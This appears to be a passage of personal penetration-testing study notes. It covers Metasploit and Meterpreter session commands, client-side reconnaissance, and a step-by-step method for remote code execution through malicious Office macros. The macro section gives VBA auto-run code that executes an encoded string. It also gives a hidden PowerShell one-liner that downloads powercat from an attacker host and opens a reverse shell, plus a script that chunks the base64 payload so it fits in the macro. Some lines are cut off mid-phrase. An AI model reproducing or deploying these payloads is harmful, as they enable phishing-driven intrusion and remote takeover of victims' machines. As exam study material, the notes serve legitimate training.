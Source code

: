 	eg. List payloads with `show payloads` then `set payload 15`
	Staged payloads denoted by `/`

To push a session to background: `Ctrl+Z` and `Y`
To list sessions: `sessions -l`
To interact with a session: `sessions -i id#` eg. `sessions -i 2`
To kill a session: `sessions -k #id`
To kill all sessions: `session -K`
To list 
### Meterpreter
- Run `help` for details
- To create a shell inside meterpreter: `shell` (This also creates a channel)
- Channels can be switched between with `channels` and the same commands as `sessions`
- Adding `l` as a prefix forces the command locally (eg. `lpwd` is `pwd` on the local Kali VM)

# Client-side Attacks
## Information Gathering
Metadata on files: `exiftool -a -u brochure.pdf`
- -a for duplicated tags, -u for unknown tags
Use theHarvester to extract an email address from a target
Use canarytokens.org/generate to create tokens if a target link is accessed

## RCE with Office Macros
- Save .doc file (not .docx) with easy to ID name (eg. mymacro.doc)
me Macro (eg. MyMacro), select .doc name from "Macros in:" then Create
- Add VBA Code
```
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()
	Dim Str As String
	PLACE-BASE64-ENCODED-ATTACK-STRING-HERE--MAX-LINE-LENGTH-50-CHAR
	--CONCAT-LINE-STRINGS-WITH-PYTHON-TO-AVOID-CHAR-LIMIT
  CreateObject("Wscript.Shell").Run Str
  
End Sub
````````

- Take Powershell one-line reverse-shell; ````
IEX(New-Object System.Net.WebClient).DownloadString('http://attackerip.serving.powercat/powercat.ps1');powercat -c attackerip.for.reverse.shell -p 4444 -e powershell
- Use https://www.base64encode.org/ to convert to base64 string with UTF-16LE
- Break base64 string into 50 chars with python (use mousepad to create script.py)
````
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
````
- Run script to produce something like;